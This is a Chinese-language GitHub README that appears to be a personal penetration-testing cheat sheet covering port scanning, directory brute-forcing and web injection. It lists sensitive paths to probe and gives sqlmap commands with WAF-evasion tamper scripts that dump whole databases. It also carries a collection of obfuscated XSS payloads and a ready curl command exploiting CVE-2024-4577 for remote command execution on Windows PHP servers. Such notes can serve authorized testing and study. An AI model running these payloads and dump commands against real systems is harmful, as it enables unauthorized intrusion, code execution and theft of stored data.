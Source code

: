 # Hitmap-ver.1

## 掃描、資訊蒐集

### 工具
  - rustscan
    -  可快速掃出目標開了哪些 Port
    -  Kali 上面沒有，亦無法直接 apt install
    -  安裝 Step
        - Step 1. 複製網址到Kali的瀏覽器進行下載
            ```sh
            https://github.com/RustScan/RustScan/releases/download/2.0.1/rustscan_2.0.1_amd64.deb
            ```
        - Step 2. 開終端機
            ```sh
            cd Downloads
            ls
            ```
        - Step 3. 把下載的檔案開啟權限
            ```sh
            sudo chmod +x rustscan_2.0.1_amd64.deb
            ```
        - Step 4. 安裝他的套件
            ```sh
            sudo dpkg -i rustscan_2.0.1_amd64.deb
            ```
        - Step 5. 完成安裝 or 出現報錯
          - 沒報錯跳過這步 
            ```sh
            sudo apt update
            sudo apt upgrade
            ```
    - **使用方法**
      ```zsh
      rustscan -a ip or domain
      ```
      ![image](https://github.com/Kazusa613732/Hitmap-ver.1/blob/main/img/rustscan1.png)
      
  - nmap
    - **使用方法**
      - 作業系統、服務版本
        ```sh
         nmap -A ip or domain
        ```
      - 指定port
        ```sh
         nmap -A -p22,80,1000 ip
        ```
      - 很多...未來待補
        
  - nuclei
    -  弱掃工具（效果待確）
    -  Kali 上面沒有，可直接 sudo apt install nuclei
    -  **使用方法**
        ```sh
        nuclei -u url 
        ```
  - Wappalyzer（Chrome插件）
    -  可以看到網站是用那些框架、套件、部分版本
  - DotGit（Chrome插件）
    -  可以偵測到有沒有.git洩漏
    -  有的話，可以透過 Kali 安裝 Githack 來查看
    -  安裝
       ```sh
       git clone https://github.com/lijiejie/GitHack.git
       ```
    - **使用方法**
        ```sh
        python Githack.py URL/.git
        ```
## 目錄爆破

### 工具
  - dirsearch
    - Kali 上沒有，可自行安裝
      ```sh
      sudo apt install dirsearch
      ```
    - **使用方法**
      ```sh
       dirsearch -u "url"
      ```
  - gobuster
    - Kali 上沒有，可自行安裝
      ```sh
      sudo apt install gobuster
      ```
    - **使用方法**
      - 待補
### 不該出現的頁面
  - .env
  - phpinfo
  - .git
  - CKfinder
  - cgi-bin
  - upload.php（進去看有沒有可以try的點）
  - login.php（進去看有沒有可以try的點）
  - .svn
  - etc..
  - 感覺奇怪的都去看

## Injection
### CRLF injection
  - [筆記](https://www.notion.so/CRLF-Injection-1b9997876c1380e4bc7cccad27ecd62f?pvs=4)
### SQL injection
  - [筆記](https://www.notion.so/SQL-Injection-1ba997876c138098bed3c44d005558b3?pvs=4)
  - 最最基本檢測方式
    - 在參數後輸入'進行測試，出現報錯、500error，基本上可以直接用SQLmap進行確認了
    - 利用不同編碼bypass
    - 'AND1=1，可測錯誤注入、盲注
  - SQLmap
    - **指令**
        ```sh
        #可以dump出所有資料庫名稱
        sqlmap -u “url” --random-agent --tamper space2comment,space2hash,space2mssqlhash --dbs
        #可以dump某一資料庫的資料表
        sqlmap -u “url” --random-agent --tamper space2comment,space2hash,space2mssqlhash -D dbs名稱 --tables
        #可以dump出某一資料庫、資料表的欄位
        sqlmap -u “url” --random-agent --tamper space2comment,space2hash,space2mssqlhash -D dbs名稱 -T tb名稱 --columns
        #可以dump出某一資料庫、資料表的欄位內容
        sqlmap -u “url” --random-agent --tamper space2comment,space2hash,space2mssqlhash -D dbs名稱 -T tb名稱 -C c欄,c欄 --dump
        #其他參數
        --delay 1（延遲一秒）、--level 1~5、--risk 1~5（更多注入手段會更久）
        ```
  ### XSS
   - 常見Payload
       ```js
         #Basic
        <script>alert('XSS')</script>
        <scr<script>ipt>alert('XSS')</scr<script>ipt>
        "><script>alert('XSS')</script>
        "><script>alert(String.fromCharCode(88,83,83))</script>
        <script>\u0061lert('22')</script>
        <script>eval('\x61lert(\'33\')')</script>
        <script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"
        <object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">
        
        #img
        <img src=x onerror=alert('XSS');>
        <img src=x onerror=alert('XSS')//
        <img src=x onerror=alert(String.fromCharCode(88,83,83));>
        <img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
        <img src=x:alert(alt) onerror=eval(src) alt=xss>
        "><img src=x onerror=alert('XSS');>
        "><img src=x onerror=alert(String.fromCharCode(88,83,83));>
        <><img src=1 onerror=alert(1)>
        
        #svg
        <svgonload=alert(1)>
        <svg/onload=alert('XSS')>
        <svg onload=alert(1)//
        <svg/onload=alert(String.fromCharCode(88,83,83))>
        <svg id=alert(1) onload=eval(id)>
        "><svg/onload=alert(String.fromCharCode(88,83,83))>
        "><svg/onload=alert(/XSS/)
        <svg><script>alert('33')
        <svg><script>alert&lpar;'33'&rpar;
        
        #div
        <div onpointerover="alert(45)">MOVE HERE</div>
        <div onpointerdown="alert(45)">MOVE HERE</div>
        <div onpointerenter="alert(45)">MOVE HERE</div>
        <div onpointerleave="alert(45)">MOVE HERE</div>
        <div onpointermove="alert(45)">MOVE HERE</div>
        <div onpointerout="alert(45)">MOVE HERE</div>
        <div onpointerup="alert(45)">MOVE HERE</div>
       ```
  ### XXE Injection
  ## CVE 2024-4577
  - 此弱點影響安裝於 Windows 作業系統上所有的 PHP 版本
    - PHP 8.3 < 8.3.8
    - PHP 8.2 < 8.2.20
    - PHP 8.1 < 8.1.29
  - 常見之 Apache HTTP Server 加上 PHP 組合
  - 所有版本的 XAMPP for Windows 安裝也預設受此弱點影響
  - **Payload&RCE**
      ```sh
      curl -o - "URL/php-cgi/php-cgi.exe?%ADd+cgi.force_redirect%3d0+%ADd+cgi.redirect_status_env+%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input" --data '<?=`whoami & dir`;die();?>'
      ```
## LFI

## RF&一堆教材文件
 - https://github.com/swisskyrepo/PayloadsAllTheThings

